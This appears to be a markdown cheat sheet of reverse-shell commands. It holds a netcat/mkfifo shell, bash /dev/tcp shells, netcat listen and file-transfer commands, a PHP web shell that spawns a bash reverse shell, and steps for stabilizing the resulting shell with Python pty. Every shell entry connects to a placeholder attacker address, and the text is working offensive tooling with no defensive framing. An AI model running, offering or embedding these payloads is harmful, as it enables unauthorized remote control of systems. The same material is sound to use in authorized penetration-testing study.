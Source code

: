 # Reverse shells

## OpenBSD
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc attacker_ip attacker_port >/tmp/f
```

<br>

## Bash 
### Bash (in file)
```
 #!/bin/bash
bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1
```
### Bash (command)
``` 
/bin/bash -c "bash -i >& /dev/tcp/attacker_ip/attacker_port 0>&1"
``` 

<br>

## Nc 
```
nc -lvp port (listen on port) 
nc -lvp port -e /program (listen on port and lauch program at connection) 
nc addr port  (connect to port) 
nc -lvnp <port> > file (RECEIVE)
nc <to_IP> <to_port> < file (SEND)
```
<br>


## PHP simple shell
```
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/ip_attack/port_attack 0>&1'"); ?>
```

<br>

# Stabilizing shell

## Python
```
  python3 -c 'import pty; pty.spawn("/bin/bash")'
  export TERM=xterm
  press ctrl+z key combination 
  (for zsh, one command): stty raw -echo; fg
  (for bash, two commands):
  			   stty raw -echo
			   fg
```